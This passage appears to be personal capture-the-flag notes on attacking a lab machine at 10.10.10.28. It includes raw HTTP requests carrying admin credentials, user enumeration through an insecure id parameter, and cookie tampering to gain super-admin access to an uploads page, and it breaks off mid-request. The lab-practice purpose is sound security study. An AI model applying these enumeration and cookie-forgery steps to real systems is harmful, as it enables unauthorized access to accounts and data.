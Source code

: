 		Origin: http://10.10.10.28
		Content-Type: application/x-www-form-urlencoded
		User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		Referer: http://10.10.10.28/cdn-cgi/login/index.php
		Accept-Encoding: gzip, deflate
		Accept-Language: en-US,en;q=0.9
		Cookie: role=admin; user=34322
		Connection: close

		username=admin&password=MEGACORP_4dm1n%21%21
	
	Response:
		HTTP/1.1 302 Found
		Date: Tue, 17 Aug 2021 16:43:32 GMT
		Server: Apache/2.4.29 (Ubuntu)
		Set-Cookie: user=34322; expires=Thu, 16-Sep-2021 16:43:32 GMT; Max-Age=2592000; path=/
		Set-Cookie: role=admin; expires=Thu, 16-Sep-2021 16:43:32 GMT; Max-Age=2592000; path=/
		Location: /cdn-cgi/login/admin.php
		Content-Length: 0
		Connection: close
		Content-Type: text/html; charset=UTF-8
	
	```
	![[Pasted image 20210817093541.png]]
	- user: `admin`
	- pass: `MEGACORP_4dm1n!!`
4. Discovered that the id at http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1 can be changed to view other user info
	![[Pasted image 20210817095048.png]]
	- Found user john with id=4
		- user: `john`
		- access id: `8832`
		- id: `4`
		- email: `john@tafcz.co.uk`
5. Enumerated users by exploiting id php variable
	- Valid users seem to only be found when the response is > 3810
	- id=13
		- user: `Peter`
		- access id: `57633`
		- id: `13`
		- email: `peter@qpic.co.uk`
	- id=23
		- user: `Rafol`
		- access id: `28832`
		- id: `23`
		- email: `tom@rafol.co.uk`
	- id=30
		- user: `super admin`
		- access id: `86575`
		- id: `30`
		- email: `superadmin@megacorp.com`
6. Used EditThisCookie to inheret super user access from `super admin` user and access uploads site
	```
	GET /cdn-cgi/login/admin.php?content=uploads HTTP/1.1
	Host: 10.10.10.28
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Referer: http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1